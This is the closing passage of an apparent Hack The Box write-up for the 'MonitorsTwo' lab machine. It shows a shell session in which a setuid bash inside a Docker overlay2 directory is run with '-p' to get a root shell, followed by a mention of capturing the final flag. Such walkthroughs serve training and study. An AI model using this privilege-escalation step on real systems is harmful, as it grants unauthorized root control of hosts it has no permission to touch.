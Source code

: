 ```
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# whoami
root
bash-5.1# hostname
monitorstwo
```

From here we can grab the final flag:

![htb_monitors2_root.png](../assets/monitorstwo_assets/htb_monitors2_root.png)

Thanks for following along!

-Ryan

------------------------------------
